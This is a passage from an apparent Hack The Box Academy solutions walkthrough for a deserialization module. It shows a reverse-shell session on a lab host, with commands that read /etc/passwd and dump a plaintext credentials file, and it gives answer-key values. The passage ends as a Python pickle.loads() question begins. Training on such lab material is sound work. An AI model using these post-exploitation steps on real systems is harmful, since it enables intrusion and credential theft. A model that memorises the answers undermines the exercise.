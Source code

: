 ![[HTB Solutions/CWEE/z. images/0616eb25ed286672110361710dd5ba48_MD5.jpg]]

```shell
Ncat: Connection from 10.129.204.98.
Ncat: Connection from 10.129.204.98:59882.
whoami

htbank
```

Then, students need to `grep` for `dnsmasq` in `/etc/passwd` to find out that the user-id of `dnsmasq` is `108`:

Code: shell

```shell
grep "dnsmasq" /etc/passwd
```

```shell
grep "dnsmasq" /etc/passwd

dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

At last, there are credentials in `/var/www/htbank/creds.txt` that students will require for the question of the section "Avoiding Deserialization Vulnerabilities", which are `htbank:HTBANK_U53R_@ccount`:

Code: shell

```shell
cat /var/www/htbank/creds.txt
```

```shell
cat /var/www/htbank/creds.txt

htbank:HTBANK_U53R_@ccount
```

Answer: `108`

# Identifying a Vulnerability (Python)

## Question 1

### "\[http://SERVER\_IP:5000\] Download the source code for HTBooks and follow along with this section. What line number is pickle.loads() called on in util/auth.py?"

Students first need to download [htbooks-src.zip](https://academy.hackthebox.com/storage/modules/169/htbooks-src.zip) and then unzip it:

Code: shell
